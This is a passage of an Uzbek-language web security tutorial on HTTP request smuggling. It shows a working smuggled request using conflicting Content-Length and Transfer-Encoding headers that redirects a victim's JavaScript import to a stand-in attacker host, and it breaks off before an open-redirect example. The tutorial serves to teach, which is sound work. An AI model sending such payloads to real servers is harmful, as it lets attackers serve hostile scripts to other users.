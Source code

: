 ```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Ushbu hatti harakat aslida zararlimas, lekin undan boshqa foydalanuvchilarni tashqi domenga yoʻnaltirish uchun Request Smuggling  hujumida foydalanish mumkin Masalan:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

Ushbu smuggled so‘rovi hackerning saytiga yo‘naltiradi, bu keyingi foydalanuvchining back-end serveri tomonidan qayta ishlanadigan so‘roviga ta’sir qiladi. Maslaan:

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Bu erda foydalanuvchining so'rovi veb-saytdagi sahifa tomonidan import qilingan JavaScript fayli uchun edi. Xaker javobda o'z JavaScript-ni qaytarish orqali foydalanuvchini to'liq buzishi mumkin.

## <mark style="color:yellow;">Root-relative redirectionni Open redirectionga aylantirish</mark>

Ba'zi hollarda siz Location headeri uchun root-relative URL manzilini yaratish yo'lidan foydalanadigan server darajasidagi open redirectionlarga duch kelishingiz mumkin.

```http
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

Agar server protokolga tegishli URL manzilidan foydalanishga ruxsat bersa, bundan hali ham ochiq yoʻnaltirish uchun foydalanish mumkin:
